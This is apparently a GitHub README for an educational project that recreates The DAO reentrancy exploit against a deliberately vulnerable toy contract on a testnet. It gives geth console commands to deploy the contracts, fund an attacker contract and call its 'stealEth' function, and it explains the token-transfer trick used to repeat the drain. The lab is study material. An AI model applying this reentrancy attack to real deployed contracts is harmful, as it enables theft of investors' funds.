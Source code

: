 # mock-dao-hack
I wanted to recreate a recurisive send exploit similar to the one used by an attacker to drain "The DAO". I wrote an extremely simplified DAO contract (`dumbDAO.sol`) which is vulnerable to this hack. Included is an attacker contract (`attacker.sol`) which, if executed correctly will drain the dumbDAO contract of its ether.

#Running the exploit
Spin up a new geth node and console on the testnet or a privatenet (would not recommend trying this on the main Ethereum blockchain for obvious reasons). I've included a shell script called `compile_solidity.sh` which you can use to automatically compile the solidity contract code and create a deployment javascript file for you to load into your console.

    ./compile_solidity.sh dumbDAO.sol

If this runs correctly it should output a `loadScript` function call with the directory to the deployment js file to run as a parameter:

    loadScript('/Path/to/your/ws/mock-dao-hack/contracts/deploy_dumbDAO.js');

You should be able to copy and paste this straight into your geth console to deploy the contract. Once it is mined you'll see a log message confirming that the contract mined correctly. The contract javascript var is its all lowercase name (`dumbdao`). Deploy both contracts (doesn't really matter what order).

Once they are both deployed, lets set a few things up before executing the exploit...
Optional: run the event listener javascript file - sometimes its helpful to have feedback on the javascript console about which events are runnning:

        loadScript('/Path/to/your/ws/mock-dao-hack/events.js');

First, buy some DAO tokens as an innocent investor (adjust `eth.accounts[0]` as necessary).

    //buy 100 ether worth of DAO tokens
    dumbdao.buyTokens({from:eth.accounts[0],value:web3.toWei(100),gas:3000000});

    //After that transaction has been mined, check to make sure the tokens were appropriately assigned
    web3.fromWei(dumbdao.balances(eth.accounts[0]));
    //and check on the balance of the contract itself
    web3.fromWei(eth.getBalance(dumbdao.address));

Next lets prepare the attacker contract:

    attacker.setDAOAddress(dumbdao.address,{from:eth.accounts[0],gas:3000000});
    attacker.fundMe({from:eth.accounts[0],value:web3.toWei(5),gas:3000000});
    attacker.buyDAOTokens(web3.toWei(5),{from:eth.accounts[0],gas:4000000});

    //check Token balance for attacker
    web3.fromWei(dumbdao.balances(attacker.address));

The attacker contract should now be a token holder with 5 ether worth of DAO tokens. To execute the exploit...

    attacker.stealEth(web3.toWei(5),{from:eth.coinbase,gas:4000000})

Check the balances of both contracts as well as the balances of the innocent investor...the DAO now has less ether than it thinks it has.


#DAO Attack - Part 2
To pull off the DAO hack, the attacker used a combination of the recursive/reentrant call attack and another exploit. This second attack consisted of the attacker transfering his DAO tokens to a different address as the last step of his recursive eploit. After the recurive attack ends and the DAO tries to update the attacker's DAO token balance which is now already 0 because of the transfer. The attacker is now free to transfer the tokens back into the attacker contract and run the exploit again.

#Further reading
DAO Hack FAQ:
https://www.reddit.com/r/ethereum/comments/4os7l5/the_big_thedao_heist_faq/

In depth Analysis:
http://vessenes.com/deconstructing-thedao-attack-a-brief-code-tour/

http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/

https://pdaian.com/blog/chasing-the-dao-attackers-wake/
